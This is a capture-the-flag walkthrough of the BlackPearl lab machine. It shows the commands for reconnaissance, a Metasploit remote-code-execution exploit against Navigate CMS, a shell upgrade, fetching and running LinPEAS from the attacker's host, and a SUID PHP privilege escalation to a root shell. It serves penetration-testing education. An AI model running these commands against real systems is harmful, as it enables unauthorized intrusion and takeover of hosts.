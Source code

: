 # BlackPearl.tcm: Capture the Flag (CTF) Walkthrough

## Target Overview

- **Target IP:** `192.168.88.137`
- **Objective:** Gain root access
- **Environment:** Internal lab network (VM-based)

---

## 🔍 Initial Reconnaissance

### Full Port Nmap Scan

We began with a comprehensive Nmap scan to fingerprint services across all TCP ports:

```bash
nmap -T4 -p- -A 192.168.88.137
```

**Key Findings:**

| Port | Service | Version                                 |
|------|---------|------------------------------------------|
| 22   | SSH     | OpenSSH 7.9p1 Debian 10+deb10u2          |
| 53   | DNS     | ISC BIND 9.11.5-P4-5.1+deb10u5           |
| 80   | HTTP    | nginx 1.14.2                             |

- OS Fingerprint suggests: Linux 4.x–5.x / MikroTik RouterOS 7.x
- Host responded with low latency, indicating it's likely on the same subnet.
- Web server running a default Nginx landing page.

---

## 🌐 Web Enumeration

### Default HTTP Page

The homepage at `http://192.168.88.137` displays a default **"Welcome to nginx!"** message.

Viewing the page source revealed an embedded email address:

```html
webmaster: alek@blackpearl.tcm
```

---

## 🏹 Directory Brute Forcing

Used `ffuf` to discover hidden paths:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.88.137/FUZZ
```

### `/secret` Discovered

- Visiting `/secret` triggers an automatic file download.
- File contents: A decoy message mocking the use of directory busting and suggesting there's nothing valuable via that method.

> “Just kidding... search somewhere else. Directory busting won't give anything.” – Alek

Fair enough.

---

## 📡 DNS Recon

Given that port 53 was open (DNS), further enumeration was performed:

```bash
dnsrecon -r 127.0.0.0/24 -n 192.168.88.137 -d blah
```

### Result:

Discovered a DNS record mapping `127.0.0.1` to `blackpearl.tcm`.

### Hosts File Modification

To resolve this custom domain locally:

```bash
echo "192.168.88.137 blackpearl.tcm" >> /etc/hosts
```

After restarting the browser, visiting `http://blackpearl.tcm` revealed a PHP-based web interface.

---

## 🕵️‍♂️ Application Fuzzing & Exploitation

### Directory Bruteforcing Again

New fuzzing on the domain:

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ
```

Discovered `/navigate` – a login page powered by **Navigate CMS**.

---

## 💥 Remote Code Execution (RCE)

Upon identifying the CMS, a quick search turned up a known unauthenticated RCE exploit:

- [Exploit-DB 45561](https://www.exploit-db.com/exploits/45561)
- [Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

### Using Metasploit:

```bash
msf6 > use exploit/multi/http/navigate_cms_rce
msf6 exploit(navigate_cms_rce) > set rhosts 192.168.88.137
msf6 exploit(navigate_cms_rce) > set vhost blackpearl.tcm
msf6 exploit(navigate_cms_rce) > run
```

Boom. Shell access acquired.

---

## 🧱 Upgrading the Shell

The default shell was primitive. A TTY upgrade was needed.

Confirmed Python was installed on the target:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now working in a full-featured TTY shell.

---

## 📈 Privilege Escalation

### Step 1: Transfer and Execute LinPEAS

On attacker machine:

```bash
cd ~/transfers
python3 -m http.server 80
```

On the victim:

```bash
wget http://192.168.88.128/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Step 2: Analyze LinPEAS Output

Among the findings, several binaries were marked with the SUID bit. One of interest:

- `/usr/bin/php7.3`

### Step 3: Exploit SUID on PHP

Using [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid):

```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```

Success: **Root shell obtained**.

---

## 🏁 Conclusion

- Initial access was gained through a known CMS vulnerability.
- Post-exploitation TTY upgrade and privilege escalation were performed using standard tools and SUID misconfigurations.
- Demonstrates the importance of patching web applications and regularly auditing SUID binaries.

---

## 📌 Tools Used

- `nmap`
- `ffuf`
- `dnsrecon`
- `Metasploit`
- `linpeas`
- `GTFOBins`

---

## ⚠️ Disclaimer

This walkthrough was conducted in a controlled, authorized lab environment. Never test or attack systems without explicit permission.

